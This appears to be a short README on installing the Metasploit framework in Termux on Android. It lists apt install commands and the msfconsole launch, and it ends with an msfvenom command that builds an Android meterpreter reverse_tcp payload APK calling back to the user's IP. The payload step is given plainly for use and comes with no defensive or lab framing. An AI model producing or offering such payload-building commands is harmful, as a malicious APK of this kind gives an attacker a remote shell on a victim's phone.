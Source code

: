 # Metasploit



# INSTALLATION In TERMUX


# Commands
```
apt update && apt upgrade
apt install unstable-repo
apt install metasploit
```

# Single Line Command
```
apt update && apt upgrade && apt install unstable-repo && apt install metasploit
```

# For Fire up
```
msfconsole
```

# For creating payload

msfvenom -p android/meterpreter/reverse_tcp LHOST=(your IP) LPORT=4444 R> payload.apk
